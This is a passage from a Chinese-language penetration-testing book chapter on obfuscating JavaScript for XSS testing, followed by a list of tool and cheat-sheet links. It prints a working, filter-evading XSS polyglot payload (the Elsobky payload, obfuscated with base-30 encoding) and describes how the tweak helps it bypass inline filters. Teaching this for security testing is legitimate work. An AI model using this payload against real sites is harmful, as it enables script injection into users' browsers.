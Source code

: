 ![代码混淆](img/B09238_02_37.jpg)

图 2.37：对整个 console.log 命令进行编码

对于传统的强类型语言开发者来说，这种约定看起来很陌生。正如我们之前所看到的，JavaScript 引擎非常宽容，并且允许以多种方式执行代码。在之前的示例中，我们解码了函数的 base 30 整数表示，并将其作为键传递给 `window` 对象。

经过一些修改，Elsobky 载荷可以通过混淆处理变得更加隐蔽。它可能看起来像下面这样：

```
jaVasCript:/*-/*'/*\'/*'/*"/**/(/* */oNcliCk=**top[8680439..toString(30)]()** )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=top[8680439..toString(30)]()//>\x3e
```

### 提示

`top` 关键字是 `window` 的同义词，可以用来引用你需要的任何 `window` 对象中的内容。

通过一个小小的修改，polyglot 载荷仍然有效，并且现在更有可能绕过一些简单的内联过滤器，这些过滤器可能会尝试过滤或阻止发现尝试。

Brutelogic 提供了一个很棒的 XSS 载荷列表，并且有许多其他不传统的方式来执行代码，网址为 `https` `://brutelogic.com.br/blog/cheat-sheet/`。

# 资源

请参考以下资源获取更多关于渗透测试工具和技术的信息：

+   **Metasploit**：[`www.metasploit.com/`](https://www.metasploit.com/)

+   **WPScan**：[`wpscan.org/`](https://wpscan.org/)

+   **CMSmap**：[`github.com/Dionach/CMSmap`](https://github.com/Dionach/CMSmap)

+   **Recon-NG**（**可在 Kali Linux 中使用或通过 Bitbucket 仓库访问**）：[`bitbucket.org/LaNMaSteR53/recon-ng`](https://bitbucket.org/LaNMaSteR53/recon-ng)

+   **OWASP XSS 过滤器规避备忘单**：[`www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet`](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

+   **Elsobky 的 GitHub 页面**：[`github.com/0xSobky`](https://github.com/0xSobky)

+   **Brutelogic 备忘单**：[`brutelogic.com.br/blog/cheat-sheet/`](https://brutelogic.com.br/blog/cheat-sheet/)
